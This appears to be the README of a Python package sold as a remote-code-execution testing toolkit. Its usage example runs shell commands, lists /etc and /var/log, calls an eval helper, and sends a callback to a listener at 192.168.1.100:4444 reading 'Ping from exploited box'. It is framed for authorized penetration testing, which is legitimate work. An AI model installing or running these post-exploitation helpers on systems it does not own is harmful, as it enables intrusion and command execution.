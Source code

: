 # mukeshkumar

A powerful single-file Python toolkit for Remote Code Execution (RCE) testing, file and directory enumeration, and Linux command execution.

> 🚨 For educational and authorized testing purposes only.

---

## 🔧 Features

- ✅ List files, folders, and recursively enumerate directories
- ✅ Run Linux commands and capture output
- ✅ Execute system-level calls
- ✅ Use `glob`, `pathlib`, and `os` modules together
- ✅ Optional socket callback support for RCE testing

---

## 📦 Installation

```bash
pip install mukeshkumar
````

---

## 🚀 Usage

```python
import mukeshkumar

# Run Linux command
print(mukeshkumar.run_command("uname -a"))

# List all files in /etc
print(mukeshkumar.list_files("/etc"))

# Recursive listing using pathlib
print(mukeshkumar.scan_pathlib("/var/log"))

# Run a command using os.system
mukeshkumar.run_os_system("ls -l")

# Send a callback to a listener
mukeshkumar.send_callback("192.168.1.100", 4444, "Ping from exploited box")

# Host information
print(mukeshkumar.get_host_info())
```

---

## 📁 Module Functions

### 📂 File Enumeration

* `list_all(path=".")`
* `list_files(path=".")`
* `list_dirs(path=".")`
* `recursive_glob(path=".", pattern="*")`
* `scan_pathlib(path=".")`

### ⚙️ Command Execution

* `run_command(cmd)`
* `run_os_system(cmd)`
* `safe_eval(code)` (⚠️ Dangerous — use for test only)

### 🌐 Network Utilities

* `get_host_info()`
* `send_callback(ip, port, msg)`

---


## ⚠️ Disclaimer

This tool is intended **only for ethical hacking, penetration testing, or system administration on systems you have explicit permission to test**. Any misuse is strictly prohibited and the author assumes no responsibility for illegal usage.

---

````
